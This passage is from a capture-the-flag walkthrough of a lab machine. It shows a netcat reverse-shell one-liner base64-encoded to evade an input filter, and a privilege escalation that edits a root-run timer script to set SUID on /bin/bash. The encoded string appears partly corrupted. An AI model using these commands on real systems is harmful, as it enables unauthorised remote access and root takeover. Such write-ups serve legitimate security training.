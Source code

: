#### Lmao, that worked *(I didin't got it first try)* so since there is a **filter** going on, on the background, we have to use a **encoding method**.. like a **Base64**!

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <PORT> >/tmp/f' | base64 -w0`

`cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7adsfSsasDaSAyPiYxfG5jIDEwLjkuMy4xNCA0NDQ1ID4vdG1wL2YK`  

#### Now we execute that, by **decoding** it first then executing the **bash**script

![[Pasted image 20241025235204.png]]

#### Waiting..

#### SHELL POP UP!!!!!!

![[Pasted image 20241026000331.png]]

#### After we stabilize our shell we can get the 3. Flag from **/home/user/flag.txt**



## What is the root flag?


#### Time to **escalate our privileges**, firstly first if we look into the / paths we see a path called**timers**..

#### Hmm, remember the **Hint** that we got from the **Ftp server**?

````
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
````

#### After we cd into the path we see a..

#### File called **timer.sh FROM ROOT AND WE HAVE THE RIGHT PRIVILEGES**!! Let's modify it to give 4777(**SUID**) rights with chmod to **/bin/bash** file.

![[Pasted image 20241026001126.png]]

#### 2 Mins later will get the /bin/bash SUID rights and we can get the**root permissions** from the root with the command:

`/bin/bash -p`

![[Pasted image 20241026001358.png]]
